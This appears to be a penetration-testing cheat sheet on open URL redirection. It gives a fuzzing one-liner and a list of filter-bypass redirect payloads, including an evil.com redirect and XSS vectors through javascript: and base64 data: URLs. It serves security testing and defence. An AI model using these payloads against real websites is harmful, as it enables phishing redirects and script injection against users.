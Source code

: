 # Open URL Redirection
Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials. Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application’s access control check and then forward the attacker to privileged functions that they would normally not be able to access.

## Fuzzing
Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.
```
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Exploitation
Using a whitelisted domain or keyword
```
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword
```
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" to bypass "http" blacklisted keyword
```
//google.com
```

Using "https:" to bypass "//" blacklisted keyword
```
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)
```
\/\/google.com/
/\/google.com/
```


Using "%E3%80%82" to bypass "." blacklisted character
```
//google%E3%80%82com
```


Using null byte "%00" to bypass blacklist filter
```
//google%00.com
```

Using "@" character, browser will redirect to anything after the "@"
```
http://www.theirsite.com@yoursite.com/
```

Creating folder as their domain
```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```


XSS from Open URL - If it's in a JS variable
```
";alert(0);//
```

XSS from data:// wrapper
```
http://www.example.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==
```

XSS from javascript:// wrapper
```
http://www.example.com/redirect.php?url=javascript:prompt(1)
```


## Thanks to
* filedescriptor
* https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet
* [Cujanovic - Open-Redirect-Payloads](https://github.com/cujanovic/Open-Redirect-Payloads)

